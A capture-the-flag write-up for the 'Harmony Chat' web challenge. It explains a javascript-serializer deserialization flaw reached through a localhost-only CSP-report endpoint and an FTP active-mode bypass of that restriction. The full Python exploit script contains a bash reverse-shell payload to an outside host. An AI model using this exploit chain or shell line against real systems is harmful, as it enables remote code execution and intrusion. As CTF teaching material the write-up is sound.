

# Harmony Chat (web, 283p, 27 solves)



Harmony Chat is Web Challenge implementing Chat application.

You can register/login user and inviting someone to chat room.

- [Source](./files/harmony.zip)


In utils.js, validateAndDecodeJSON calls fromJSON of `javascript-serializer` module.

`javascript-serializer` is supported to deserialize function similar with `node-serialize` known as one of vulnerable modules.

```js
const crypto = require("crypto")
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```

After deserializing input, the csp-report property of the result will be used to create report (which is string typed)

This means specific property of the report can be converted to string by calling their toString method.

```js
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}

const generateTextReport = report => {
  let text = "\nContent Security Policy violation!\n"
  text += `Document URI: ${report["document-uri"]}\n`
  text += `Blocked URI : ${report["blocked-uri"]}\n`
  text += `Directive   : ${report["violated-directive"]}\n`
  text += `Full Policy : ${report["original-policy"]}\n`

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  let sourceInfo = ""
  if (report["source-file"]) {
    sourceInfo += report["source-file"]
  }

  if (report["line-number"]) {
    sourceInfo += `:${report["line-number"]}`
  }

  if (report["column-number"]) {
    sourceInfo += `:${report["column-number"]}`
  }

  if (sourceInfo.length > 0) {
    text += `Source      : ${sourceInfo}\n`
  }

  return text
}
```

from the [docs](https://github.com/wix-incubator/javascript-serializer), We could know `javascript-serializer` allows to construct object by setting `___js-to-json-class___` property.

So, below is actual input for executing script by `javascript-serializer`

```js
const data = `{"csp-report":{"blocked-uri":"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process)"}}}}`;

const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
console.error(generateTextReport(report["csp-report"]))
```

How to trigger, handleReport called when it received POST request for `/csp-report` route.

And their body will be given to argument of vulnerable point.

```js
const REPORT_URL = "/csp-report"

const ContentSecurityPolicy = (req, res, next) => {
  if (req.path === REPORT_URL &&
      req.method === "POST" &&
      req.headers["content-type"] === "application/csp-report") {
    handleReport(req, res)
    return
  }

  injectCSPHeaders(req, res)
  next()
}
```

but there's ip restriction for the handleReport function.

We should bypass this with ftp active mode.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```

after writing valid http request to log,

We can transfer it to any host using ftp.

```python
from websocket import create_connection
import json, random
from pwn import *
import time

context.log_level = 'debug'

HOST = 'harmony-1.hackable.software'

def init():
    global channel_id, channel_id2, host_ws, user_id

    host_ws = create_connection(f'ws://{HOST}:3380/chat')

    host_ws.send('{"type":"register","displayName":"POST /csp-report?"}')
    res = json.loads(host_ws.recv())
    host_ws.recv()

    user_id = res['uid']
    print('[*] user id: ' + user_id)

    host_ws.send('{"type":"new-channel","name":"' + str(random.randint(10000, 99999)) + '"}')
    res = json.loads(host_ws.recv())
    
    channel_id = res['channels'][0]['chId']
    print('[*] channel id: ' + channel_id)

    payload = 'HTTP/1.1'
    host_ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(payload) + '}')

    host_ws.recv()

def save_msg(name, message):
    global channel_id, host_ws

    ws = create_connection(HOST)

    ws.send('{"type":"register","displayName":' + json.dumps(name) + '}')
    res = json.loads(ws.recv())
    ws.recv()

    user_id = res['uid']

    host_ws.send('{"type":"invite","chId":' + json.dumps(channel_id) + ',"uid":' + json.dumps(user_id) + '}')
    res = json.loads(host_ws.recv())

    ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(message) + '}')

    res = json.loads(ws.recv())

    ws.close()

# open channel for constructing log
init()

# writing HTTP header
save_msg('Content-Length', '345')
save_msg('Content-type', 'application/csp-report')
save_msg('Connection', 'close')

# message with no content adds new line
save_msg('RN', '')

save_msg('{"csp-report":{"blocked-uri"', """"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/4444 0>&1'`)+[])"}}}}""")

host_ws.close()

# ftp stage (bypassing host restriction)

p = remote(HOST, 3321)
p.sendline('user ' + user_id)
p.sendline('pass')

time.sleep(3)

p.sendline('PORT 127,0,0,1,13,52')
p.sendline('retr ' + channel_id)

p.interactive()
```